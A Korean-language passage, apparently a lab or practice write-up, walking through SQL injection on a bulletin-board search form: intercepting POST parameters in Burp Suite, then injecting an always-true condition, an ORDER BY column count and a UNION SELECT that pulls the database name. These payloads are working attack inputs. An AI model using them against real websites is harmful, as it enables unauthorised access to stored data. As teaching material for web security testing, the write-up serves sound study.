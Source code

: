 Burp Suite를 통해 게시판 검색 요청을 확인해보니, 다음과 같은 파라미터가 POST 방식으로 전달되고 있었다.

```html
option_val=username
board_result=1111
```

이를 통해 내부 SQL 쿼리는 다음과 같은 구조로 동작하는 것으로 추정된다.

```sql
SELECT ? FROM ? WHERE username LIKE '%1111%';
```

우선 `option_val` 파라미터에 `and` 조건을 삽입하여 SQL 인젝션을 시도해보았다.

```sql
username and '1'='1'#
```

![and 결과](/assets/web-screenshots/sqli-point/sqli_7_and.png)

이를 통해 내부 쿼리가 항상 **참**이 되도록 만들어, 모든 게시물이 필터링 없이 노출되는 현상을 확인할 수 있었다.

위 Injection 포인트를 기반으로, `ORDER BY` 문을 활용하여 해당 쿼리의 컬럼 개수를 확인하였다.

```sql
username order by 10#
```

- **컬럼 개수: 10개**

```sql
username union select database(),2,3,4,5,6,7,8,9,10#
```
